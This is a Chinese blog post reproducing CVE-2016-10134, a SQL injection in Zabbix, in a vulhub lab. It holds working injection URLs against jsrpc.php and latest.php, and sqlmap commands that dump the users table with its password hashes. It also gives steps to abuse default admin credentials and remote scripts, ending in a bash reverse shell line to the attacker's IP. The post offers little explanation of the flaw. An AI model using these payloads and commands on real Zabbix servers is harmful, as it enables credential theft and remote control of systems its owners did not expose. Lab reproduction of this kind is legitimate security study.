










# 漏洞复现-CVE-2016-10134-zabbix sql 注入 - 铺哩 - 博客园

> 原文：[`www.cnblogs.com/cute-puli/p/15659959.html`](https://www.cnblogs.com/cute-puli/p/15659959.html)

# 0x00 实验环境

攻击机：Ubuntu

靶场：vulhub 搭建的靶场环境

# 0x01 影响版本

```
zabbix 2.0.x| 2.2.x| 2.4.x| 3.0.0-3.0.3
```

# 0x02 漏洞复现

**方法一**：存在**guest**空密码账号，无需登录可爆出漏洞：

（1）访问页面：


 （2）无需登录，使用注入语句：

```
http://x.x.x.x:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)
```

  （3）爆出用户名与 ip 信息：

```
updatexml(0,concat(0xa,user()),0)
```


**方法二**：直接使用**sqlmap**跑一下：

（1）跑出来存在注入：


 （2）跑数据库：

```
python2 sqlmap.py -u "http://x.x.x.x:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=*" --dbms=mysql -p "profileIdx2" --technique E --dbs
```


 （3）跑表

```
python2 sqlmap.py -u "http://x.x.x.x:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=*" --dbms=mysql -p "profileIdx2" --technique E -D zabbix --tables
```



 （4）跑列

```
python2 sqlmap.py -u "http://1x.x.x.x:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=*" --dbms=mysql -p "profileIdx2" --technique E -D zabbix -T users --columns
```

 

 （5）跑其列的数据

```
python2 sqlmap.py -u "http://x.x.x.x:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=*" --dbms=mysql -p "profileIdx2" --technique E -D zabbix -T users -C userid,name,passwd --dump
```

 

 （6）从 md5 查询其结果

 

**方法三**：不同的注入页面，使用不同的注入语句：

```
latest.php?output=ajax&sid=89ef7941e55db49d&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)
```

（1）使用（**guest/空**）登录后，获取下图**zbx_sessionid**的**16**位值：



 （2）使用下面的语句进行注入查询

```
http://x.x.x.x:8080/latest.php?output=ajax&sid=89ef7941e55db49d&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)
```


** 方法四**：getshell 的话需要设置一下配置文件：

```
docker exec -it acb6e32199fd /bin/sh

这里的 acb6e32199fd 为对应容器的 CONTAINER ID，根据自己电脑修改

vi /etc/zabbix/zabbix_agentd.conf

输入 i 进行编辑，添加 EnableRemoteCommands = 1 后按下 esc 键输入:wq 保存并退出
```


 （1）按照上面的修改一下配置文件：



 （2）重启容器

```
重启容器   
docker restart acb6e32199fd
```


（3）使用**admin/zabbix**登录进来：



 （4）创建一个 zabbix 的**可执行脚本**（**Administration**--->**Scripts**）



 （4）点击执行（**Monitoring**--->**Latest data**），在“**Select**”处选择所有模块，然后点击“**Filter**”：



 （5）点击“**Zabbix server**” 后点击你创建的那个脚本的名字“**test**”：



 （6）执行成功，我这边是因为环境问题，所以没有执行成功，但是**大体步骤就是我上述所示**：



 （7）只要将上面的 touch 换成**反弹 shell 的命令**即可：

```
/bin/bash -i > /dev/tcp/攻击机 IP/端口 0<&1 2>&1
```

# 0x03 漏洞原理

 自行研究一下那个 php 文件的注入的地方吧，这个涉及框架啥的，我只想静静地当一只脚本小子。

# 0x04 参考文献

https://blog.csdn.net/qq_43645782/article/details/106588179

# 0x05 免责声明

本漏洞复现文章仅用于学习、工作与兴趣爱好，并立志为网络安全奉献一份力量，凡是利用本博客相关内容的无良**hackers**造成的安全事故均与本人无关！